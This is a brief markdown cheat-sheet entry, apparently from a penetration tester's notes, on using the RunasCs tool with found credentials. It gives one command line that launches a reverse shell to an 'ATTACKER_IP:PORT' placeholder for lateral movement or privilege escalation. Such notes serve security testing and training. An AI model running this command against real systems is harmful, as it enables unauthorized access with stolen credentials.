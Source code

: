# Runas

## Use case: 

### Use this when we have found credentials for a user, but we have no other methods to authenticate (Win-RM, etc). Essentialy, we inject the credentials found in memory to authenticate with these valid credentials.

## Github repo: https://github.com/antonioCoco/RunasCs/releases/tag/v1.5

### Command:

 - .\RunasCs.exe USERNAME PASSWORD cmd.exe ATTACKER_IP:PORT (Execute a reverse shell as the authenticated user for lateral movement/privesc)
